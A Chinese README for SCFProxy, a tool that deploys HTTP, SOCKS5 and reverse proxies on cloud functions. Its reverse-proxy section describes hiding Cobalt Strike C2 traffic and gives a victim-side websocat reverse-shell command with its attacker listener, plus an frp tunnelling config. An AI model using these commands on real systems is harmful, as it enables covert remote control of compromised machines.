


# SCFProxy

SCFProxy 是一个基于云服务商提供的云函数及 API 网关功能实现多种代理的工具。

# 安装

前往 [Release](https://github.com/shimmeris/SCFProxy/releases/) 页面下载对应系统压缩包即可。如仍需使用 Python
旧版，请切换至 [Python](https://github.com/shimmeris/SCFProxy/tree/Python) 分支

# 使用指南

## 配置凭证

首次运行 `scfproxy` 会在 `~/.config/scfproxy` 目录生成 `sdk.toml` 配置文件，用于配置云厂商的 AccessKey/SecretKey。

之后运行 `deploy/clear` 命令都将默认读取此文件，也可通过 `-c config` 参数指定。

## List

`scfproxy list` 接受 `provider`, `region`, `http`, `socks`, `reverse` 五种参数。

`provider` 参数列出目前支持的云厂商，可通过 `-m module` 参数指定模块列出支持特定代理的厂商。

`region` 参数用于列出云厂商可部署的区域，需使用 `-p providers` 指定需要查看的云厂商

`http`, `socks`, `reverse` 参数用于列出目前已经部署的代理

## HTTP 代理

### 部署

```console
scfproxy deploy http -p provider_list -r region_list [-c providerConfigPath]
```

`providerConfigPath` 为保存有各个云厂商 ak/sk 的配置文件，默认位置在 `~/.config/scfproxy`

`provider_list` 与 `region_list` 传入的参数列表以 `,` 分隔。

`region_list` 支持如下 4 种形式（在所有 `deploy` 及 `clear` 命令上都支持）

* `*` 表示所有区域
* `area-*` 表示该 area 区域支持的所有地区
* `are-num` 表示该 area 区域支持的前 `num` 个地区(代码硬编码顺序返回)
* 标准形式，即云厂商所提供的标准 region 形式

对于提供多个 `provider` 的情况下，将对每个 `provider` 进行上述 `region` 形式的解析与查找，不存在的 `region` 将被忽略

例子：

```console
scfproxy deploy http -p alibaba,tencent -r ap-1,eu-*,cn-shanghai
```

通过 `scfproxy list -p alibaba,tencent` 可以查看到所有的 region，上面这条命令的执行结果为

1. 在 `alibaba` 上部署 `ap-northeast-1`, `eu-central-1`, ` eu-west-1`, `cn-shanghai` 区域的 http 代理
2. 在 `tencent` 上部署 `ap-beijing` 区域的 http 代理

### 运行

```console
scfproxy http -l port [-c cert_path] [-k key_path]
```

首次运行会在 `~/.confg/scfproxy/cert` 目录生成 `scfproxy.cer` 及 `scfproxy.key` 证书，需要将其导入系统证书并信任才可以代理
https 请求。

### 清理

```console
scfproxy clear http -p provider_list -r region_list [--completely]
```

清理功能默认只会删除触发器，如需同时删除函数，需添加 `-e/--completely` 参数

## SOCKS5 代理

### 部署 & 清理

与 HTTP 代理相同，只需替换 `http` 参数为 `socks`

```console
scfproxy deploy socks -p provider_list -r region_list
```

### 运行

```console
scfproxy socks -l socks_port -s scf_port -h address [--auth user:pass] [-c providerConfigPath]
```

`-l socks_port` 监听 socks_port，等待用户的 socks5 连接

`-s scf_port` 监听 scf_port，等待来自云函数的连接，需要部署命令中 `address` 参数的端口一致

`-h address` 用于指定云函数回连的 vps 地址

`--auth [user:pass]` 用于指定 socks 认证信息，默认无认证

socks 命令需要读取 ak/sk 用于触发函数，且通过读取 deploy 后生成的 `~/.config/scfproxy/socks.json`
文件确定需要调用函数的厂商及地区，因此需要将上述两个文件复制到 vps 对应位置运行。

目前 socks 代理部署的函数超时时间为 15m，因此如果将 socks 代理用于一个长连接如 mysql 连接，需自行安排好时间，避免时间一到导致连接意外断开。

### 使用效果

**长连接**

借助 proxifier 通过 scfproxy 的 socks5 代理进行 mysql 连接，可以看到连接中的 ip 地址来自于阿里云的机器


**短连接**
与 http 类似，每次短连接将获得一个新的 ip


## 反向代理

### 部署

```console
scfproxy deploy reverse -p provider_list -r region_list -o origin [--ip ip_list]
```

`-o origin ` 用于指定需要用于反向代理的回源地址，可接受 HTTP 及 Websocket 协议。

`--ip ip_list` 用于限制访问来源，只有 `ip_list` 中的 ip 才能访问部署返回的反向代理网关地址。

### 使用场景

基于反向代理可有如下使用方法，

#### C2 隐藏

以 cobaltstrike 为例，只需将 api 的域名填入 listener 的 host

```console
scfproxy deploy reverse ... -o http://vps --ip victim
```


#### 反弹 shell 地址隐藏

借助 [websocat](https://github.com/vi/websocat) 工具可实现反弹 shell 的功能。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

受害者端执行：

```console
websocat ws://reverse_proxy_address  sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

攻击者 vps 执行：

```console
websocat ws-l:0.0.0.0:port - --binary -E --uncompress-zlib
```

效果如图：


#### 内网穿透地址隐藏

该使用场景需要支持 websocket 协议的内网穿透软件。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

以 frp 代理 SOCKS 为例，客户端配置：

```ini
[common]
server_addr = reverse_proxy_domain
server_port = 80
tls_enable = true 
protocol = websocket

[plugin_sock5]
type = tcp
remote_port = 8080
plugin = socks5
use_encryption = true
use_compression = true
```

效果如图


### 清理

```console
scfproxy clear http -p provider_list -r region_list -o origin
```

与 HTTP 及 SOCKS 代理不同，反向代理没有 `--completely` 参数，但需要指定 `origin` 参数用于定位需要删除的服务

# 支持厂商

* **阿里云**：不支持反向代理
* **腾讯云**：部署大陆外地区速度极慢，目前仅支持大陆地区
* **AWS**：暂不支持反向代理

AWS 需要自行参考 [Lambda 执行角色](https://docs.aws.amazon.com/zh_cn/lambda/latest/dg/lambda-intro-execution-role.html)
创建角色，然后将对应角色 ARN 填入 `sdk.toml` 文件中。

# 交流群

该项目仍处于测试阶段，可能存在一些 bug，欢迎提交 issue 或者进入微信群交流。


# TODO

- [x] 优化 socks 功能
- [ ] 优化代码
- [ ] 美化输出
- [ ] 增加华为云，AWS，GCP 等其他云厂商
